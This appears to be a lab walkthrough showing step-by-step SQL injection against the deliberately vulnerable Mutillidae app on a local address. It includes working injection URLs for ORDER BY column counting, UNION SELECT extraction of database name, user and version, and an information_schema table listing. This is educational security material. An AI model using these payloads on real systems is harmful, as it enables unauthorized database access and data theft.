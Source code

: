 Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below: http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Srujana0303/sqlinjection/assets/132996836/fea23ee4-20af-49c1-ba3d-ea59298891cd)

After adding the order by 6 into the existing url , the following error statement will be obtained:

![image](https://github.com/Srujana0303/sqlinjection/assets/132996836/78675885-0ef1-4b1a-8ba6-6161caecb9ce)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![image](https://github.com/Srujana0303/sqlinjection/assets/132996836/281b3b1f-e1fb-40b0-98db-f4c3a95f6f93)

As it is having 5 columns the query worked fine and it provides the correct result

![image](https://github.com/Srujana0303/sqlinjection/assets/132996836/52ca962c-b204-4f50-9134-3184a40031f2)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![image](https://github.com/Srujana0303/sqlinjection/assets/132996836/54108740-d46b-441e-b3fe-2e9a50322a9b)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![image](https://github.com/Srujana0303/sqlinjection/assets/132996836/472208bd-9a7d-4656-83b3-a7c8ee4237cc)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Srujana0303/sqlinjection/assets/132996836/ea55ad59-661d-4335-8685-93bcbb1aa08c)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
